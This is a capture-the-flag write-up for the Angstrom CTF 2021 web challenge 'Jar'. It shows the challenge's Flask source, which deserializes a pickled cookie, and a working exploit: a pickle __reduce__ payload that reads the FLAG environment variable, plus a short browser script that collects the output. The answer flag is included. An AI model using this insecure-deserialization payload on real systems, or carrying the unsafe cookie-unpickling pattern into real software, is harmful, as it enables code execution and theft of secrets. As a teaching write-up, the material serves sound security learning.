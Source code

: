 ```yaml
---
name: Jar (2021)
event: Angstrom CTF 2021
category: Web
description: Writeup for Jar (Web) - Angstrom CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Jar

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/c147fBCppb8/0.jpg)](https://youtu.be/c147fBCppb8?t=28s "Angstrom 2021: Jar")

## Challenge Description

> My other pickle challenges seem to be giving you all a hard time, so here's a simpler one to get you warmed up.

## Source

{% code overflow="wrap" %}
```py
import base64
import pickle
from flask import Flask, send_file, request, make_response, redirect
import random
import os

app = Flask(__name__)

flag = os.environ.get('FLAG', 'actf{FAKE_FLAG}')

@app.route('/pickle.jpg')
def bg():
    return send_file('pickle.jpg')

@app.route('/')
def jar():
    contents = request.cookies.get('contents')
    if contents:
        items = pickle.loads(base64.b64decode(contents))
    else:
        items = []
    return '<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button><img style="width: 100%; height: 100%" src="/pickle.jpg">' + \
        ''.join(f'<div style="background-color: white; font-size: 3em; position: absolute; top: {random.random()*100}%; left: {random.random()*100}%;">{item}</div>' for item in items)

@app.route('/add', methods=['POST'])
def add():
    contents = request.cookies.get('contents')
    if contents:
        items = pickle.loads(base64.b64decode(contents))
    else:
        items = []
    items.append(request.form['item'])
    response = make_response(redirect('/'))
    response.set_cookie('contents', base64.b64encode(pickle.dumps(items)))
    return response

app.run(threaded=True, host="0.0.0.0")
```
{% endcode %}

## Solution

#### exploit.py

{% code overflow="wrap" %}
```py
import pickle
import base64
import os


class RCE(object):
    def __reduce__(self):
        return (os.getenv, ('FLAG',))


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```
{% endcode %}

#### print_flag.js

{% code overflow="wrap" %}
```js
var divs = document.getElementsByTagName("div");
var flag = "";

for (var i = 0; i < divs.length; i++) {
    flag += divs[i].innerText;
}

console.log(flag);
```
{% endcode %}

Flag: `actf{you_got_yourself_out_of_a_pickle}`
